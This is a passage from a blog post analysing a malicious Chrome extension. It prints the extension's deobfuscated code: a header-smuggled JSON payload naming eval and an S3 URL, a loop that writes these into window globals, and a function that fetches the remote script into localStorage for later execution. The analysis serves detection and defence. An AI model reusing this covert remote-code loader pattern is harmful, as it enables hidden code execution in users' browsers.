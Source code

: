 For the `strvstrevsstr` function, I'm not too sure if it is worth going too much into detail of what it does. Basically, the only thing we need to know is that it does quite a bit of string manipulation to decode the string to the JSON object we see below.

```js
"NTM2MTEzeChZb1koQTBfFX5pWRY4FFNLexxTNhogb0dlOlFFHHxoLQ1uVFlYBDJ7CHIKZ1pdWlR-eV4xVTNkIUJBMCM6K1UqFUpEEX13bVt6WRFfVjxwSD8KbjUuGx03NSFhGmBhZiExVEUUQFFbOXBUZV13LC1X".strvstrevsstr() // => {"ee":"eval","jj":"$","gg":"get","uu":"https:\/\/s3.amazonaws.com\/g-js\/6afj7be259a48.js?r=12345","cache_c":"1"}
```

"`JSON
{
   "ee":"eval",
   "jj":"$",
   "gg":"get",
   "uu":"https:\/\/s3.amazonaws.com\/g-js\/6afj7be259a48.js?r=12345",
   "cache_c":"1"
}
```

What a strange thing to send to the client. The attacker utilizes the `cache-control` field as a mechanism to transfer a malicious JSON object. Unless we perform some special filtering on the response header that we receive from our requests, this is pretty hard to detect without manual analysis of the code and the network requests coming through.

Once we have this JSON object, each key-value pair is stored in the `window` object.

![](https://github.com/Spiderpig86/blog/raw/master/images/Extensions%20Google%20Chromes%20Soft%20Underbelly%20Part%202/ext4.PNG)

![](https://github.com/Spiderpig86/blog/raw/master/images/Extensions%20Google%20Chromes%20Soft%20Underbelly%20Part%202/ext5.PNG)

​```js
// getMediaPath (snippet from above)
if (c = e.strvstrevsstr(), c = "undefined" != typeof JSON && JSON.parse && JSON.parse(c), c && c.cache_c) {
    for (var f in c) window[f] = c[f];
    A = !0; // A becomes true
    break
}
```

Finally, the `setMediaPath` function is called. The malicious script is fetched from that S3 URL and then stored within local storage with the key `cfg_audio_id`. The reason why this key, in particular, is chosen is not certain, as search results yielded no information. Most likely, it was just some randomly chosen key.

```js
setMediaPath: function() {
    "undefined" != typeof jj && jj && uu && gg > jj && window[jj][gg](uu, function(a) {
        var b = "cfg_audio_id";
        localStorage[b] = a
    })
}
```
